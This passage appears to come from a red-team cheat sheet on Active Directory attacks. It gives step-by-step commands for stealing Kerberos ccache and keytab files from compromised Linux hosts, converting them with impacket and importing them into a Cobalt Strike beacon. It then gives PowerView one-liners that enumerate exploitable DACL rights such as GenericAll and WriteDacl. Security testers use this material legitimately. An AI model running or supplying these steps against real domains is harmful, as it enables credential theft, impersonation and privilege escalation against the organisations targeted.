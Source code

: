 #### _Linux Credential Cache:_
Kerberos Credential Cache \(ccache\) files hold the Kerberos credentials for a user authenticated to a domain\-joined Linux machine, often a cached TGT\. This can be used to imperonate that user within the domain\. 
>It is mandatory to have root level access to the target Linux system\. 
- 1\. Check if there are any ccache files stored in '/tmp' with a prefixed 'krb5cc' and if the user is an interesting account to take\-over \(check column which user ownes the file\): `ls -l /tmp/`
- 2\. Download the 'krb5cc\_\*' file to your own system
- 3\. Convert the ticket from ccache to kirbi format \([impacket](https://github.com/SecureAuthCorp/impacket)\): `impacket-ticketConverter krb5cc_* ticket.kirbi`
- 4\. Import the ticket in a beacon (for cobalt strike use 'make_token' + 'kerberos_ticket_use')

#### _Linux Kerberos Keytab files:_
Keytab files can be used by automated scripts to access Kerberos\-enabled network resources on a user's behalf\. Keytab files contain a Kerberos principal name and encrypted keys\.
- 1\. Search a compromised Linux based system for keytab files \(\.keytab extention\) and check if the user owning that file is an interresting user to take control of\.
- 2\. \(optional\) download the ticket to your own system and perform the rest of the action there
- 3\. If lucky and the ticket is still valid or can be renewed \(use  "kinit \-R"\), use the ticket by specifing the correct domain user: `kinit <username>@<FQDN> -k -t username.keytab`
- 4\. Verify if the ticket was imported successfully: `klist`
- 5\. Use any tool that supports kerberos authentication \(e\.g\. via the '\-k' parameter for impacket tools\)


---
### __Discretionary access control list \(DACL\) abuse:__
Active Directory objects such as users and groups are securable objects and DACL/ACE’s define who can read/modify those objects\. DACL/ACE misconfigurations can be found in any domain object \(e\.g\. groups, user accounts, computer accounts, Organizational Units\)\. 

#### _Enumerate for DACL misconfigurations:_
- Check which AD objects have interesting rights on the account object "account1" \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)\): `Get-ObjectAcl -SamAccountName account1 -ResolveGUIDs | ? {$_.ActiveDirectoryRights -match "GenericAll|WriteDacl|Self|WriteOwner|GenericWrite|Self|ForceChangePassword"}` 
- Check which AD objects have privileged rights on the group object "Domain Admins" \(PowerView): `Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=rto,DC=external"} | select ActiveDirectoryRights, SecurityIdentifier |fl`
- Check which 4 digit AD objects have interesting privileges on the account "account1" \(PowerView\): `Get-DomainObjectAcl -Identity account1 | ? { $_.ActiveDirectoryRights -match "GenericAll|WriteProperty|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select SecurityIdentifier, ActiveDirectoryRights | fl`
- Check which 4 digit AD objects have interesting privileges on other AD objects \(PowerView\): `Get-DomainObjectAcl | ? {$_.ActiveDirectoryRights -match "GenericAll|WriteDacl|Self|WriteOwner|GenericWrite|Self|ForceChangePassword" -and $_.SecurityIdentifier -match "S-1-5-21-816166545-1771540570-1766462720-[\d]{4,10}"} | select ObjectDN, SecurityIdentifier, ActiveDirectoryRights |fl`
- Target an entire OU and list what privileges a principal \(SecurityIdentifier\) has over another principal \(PowerView\): `Get-DomainObjectAcl -SearchBase "OU=Servers,DC=rto,DC=external" | ? {$_.ActiveDirectoryRights -match "GenericAll|WriteDacl|Self|WriteOwner|GenericWrite|Self|ForceChangePassword" | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier |fl`
